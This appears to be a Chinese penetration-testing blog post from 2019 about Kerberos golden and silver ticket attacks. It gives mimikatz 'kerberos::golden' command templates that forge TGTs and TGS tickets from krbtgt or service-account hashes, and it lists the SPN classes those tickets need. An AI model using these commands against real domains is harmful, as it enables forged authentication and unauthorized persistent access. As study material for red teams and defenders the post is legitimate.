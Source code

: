 ```yaml
---
title: "金银票据的利用"
date: 2019-07-22T00:00:00+08:00
draft: false
tags: ['domain','mimikatz']
categories: ['内网渗透']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


黄金票据利用 krbtgt 账户的 NTLM-Hash/AES-Key 伪造 TGT, 借此以访问域内所有资源.

白银票据利用服务账户的 NTLM-Hash/AES-Key 伪造 TGS Ticket, 可访问指定服务.

<!--more-->

## Golden Ticket

黄金票据利用 krbtgt 账户的 NTLM-Hash/AES-Key 伪造 TGT, 借此以访问域内所有资源.

```
kerberos::golden /user:fake-user /domain:domain-name /sid:domain-sid /krbtgt:krbtgt-hash
```

通过 `/aes256`, `/aes128` 可指定 AES-Key 替代 NTLM-Hash.

另有 `/ptt` 参数以直接在当前会话注入票据.

默认有效时间为 20 分钟, 过期可重新导入.

快速更改 krbtgt 账户密码两次可使票据失效.

## Silver Ticket

白银票据利用服务账户的 NTLM-Hash/AES-Key 伪造 TGS Ticket, 可访问指定服务.

其实跟 Kerberoast 爆破后的利用类似, 个人认为银票作为维持权限的方法并不合适, 如果是第三方服务建议进一步利用, CIFS LDAP 这类倒不如直接针对系统本身进行权限维持.

```
kerberos::golden /user:fake-user /domain:domain-name /sid:domain-sid /target:target-host /service:service-name /rc4:service-hash
```

注意目标服务只有添加了对应的 SPN 信息才能够使用银票.

系统服务.

```
WMI: HOST RPCSS
WinRM: HOST HTTP
Scheduled Tasks: HOST
Windows File Share: CIFS
PowerShell Remoting: HOST HTTP
LDAP operations including Mimikatz DCSync: LDAP
Windows Remote Server Administration Tools: RPCSS LDAP CIFS
```

常用第三方服务 [ADSecurity](https://adsecurity.org/?page_id=183).